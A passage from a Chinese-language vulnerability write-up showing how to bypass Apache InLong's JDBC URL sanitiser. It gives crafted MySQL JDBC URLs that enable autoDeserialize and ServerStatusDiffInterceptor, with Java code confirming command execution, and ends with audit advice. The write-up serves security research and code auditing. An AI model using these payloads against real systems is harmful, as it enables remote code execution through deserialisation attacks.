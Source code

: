 - (键值对形式)

```text
jdbc:mysql://(host=127.0.0.1,port=54324,queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor,autoDeserialize=true)/test?
```

- address=(键值对形式)

```text
jdbc:mysql://address=(host=127.0.0.1)(port=54324) (queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor)(autoDeserialize=true)/test?
```

 结合漏洞版本忽略了`#`注释的处理,在jdbc请求的url后追加`#`注释，即可绕过现有的安全防护。

 验证前面的猜想，通过下面的代码模拟org.apache.inlong.manager.web.controller.DataNodeController#testConnection接口的调用过程,尝试进行绕过：

```Java
try {
    String url="jdbc:mysql://address=(host=127.0.0.1)(port=54324) (queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor)(autoDeserialize=true)/test?#";
    String jdbcURL= MySQLSensitiveUrlUtils.filterSensitive(url);
    Class.forName("com.mysql.cj.jdbc.Driver");
         DriverManager.getConnection(jdbcURL,"CB 1.9","");
} catch (Exception e) {
    e.printStackTrace();
}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-83d5cec37e13ea80da26cb63b8c7fda02ea2ff16.png)

 可以看到成功绕过了org.apache.inlong.manager.pojo.util.MySQLSensitiveUrlUtils#filterSensitive防护机制，执行了对应的命令：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-3edd4aace392fb7fc5cfa492729a9c542dc330cf.png)

 `(键值对形式)`同理：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-d05c6d1bc72ce428f426f625a41e89baf1314ffa.png)

0x03 其他
=======

 实际上官方文档也提及到上述所说的传递参数的方式https://dev.mysql.com/doc/connector-j/en/connector-j-reference-jdbc-url-format.html ，还有一些其他的例子：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-0afaf7e2496f76a28e6ac6e10b25c7f8ce689561.png)

 在实际业务场景中，一般针对JDBC Attack的防护主要分为两种：

- 支持jdbc连接串的直接传递，会将jdbc连接串按预置模板解析出对应的字段，然后再进行安全检查
- 不支持jdbc连接串的直接传递，但是host、用户名、密码、数据库名以及自定义的连接字符串这一系列输入可能通过StringBuilder#append进行拼接，最终合并成一个完成的jdbcUrl进行连接。在这个过程中对对应的字符进行检查

 如果在实际防护中没有考虑到上述的传参方式的话，例如host字段可能没有限制具体的内容，还是会存在对应的安全风险的。在实际代码审计过程中可以额外关注。